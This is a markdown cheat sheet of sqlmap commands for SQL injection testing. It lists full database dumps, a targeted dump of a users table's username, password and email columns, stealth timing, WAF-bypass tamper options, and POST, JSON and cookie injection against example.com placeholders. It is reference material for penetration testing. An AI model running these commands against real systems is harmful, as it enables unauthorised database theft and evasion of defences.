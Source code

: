 ## Common Command Combinations

### Quick Database Dump
```bash
# Full enumeration and dump
sqlmap -r request.txt --dbs --tables --columns --dump-all --batch

# Specific table dump with optimization
sqlmap -r request.txt -D webapp -T users -C "username,password,email" --dump --threads=5
```

### Stealth Mode
```bash
# Low and slow approach
sqlmap -r request.txt --delay=3 --timeout=30 --level=2 --risk=1 --tamper=randomcase,space2comment
```

### Aggressive Testing
```bash
# Maximum testing
sqlmap -r request.txt --level=5 --risk=3 --threads=10 --technique=BEUST --batch
```

### WAF Bypass Combination
```bash
# Multiple evasion techniques
sqlmap -r request.txt --delay=2 --random-agent --tamper=space2comment,randomcase,charencode --level=3
```

## POST Data & Forms

### POST Requests
```bash
# POST data injection
sqlmap -u "http://example.com/login" --data="username=admin&password=test"

# Mark POST parameter for injection
sqlmap -u "http://example.com/login" --data="username=admin*&password=test"

# JSON POST data
sqlmap -u "http://example.com/api" --data='{"id":1}' --headers="Content-Type: application/json"
```

### Cookie Injection
```bash
# Cookie parameter injection
sqlmap -u "http://example.com/page" --cookie="PHPSESSID=abc123; trackingId=xyz*"

# Level 2+ required for cookie testing
sqlmap -u "http://example.com/page" --cookie="id=1" --level=2
```
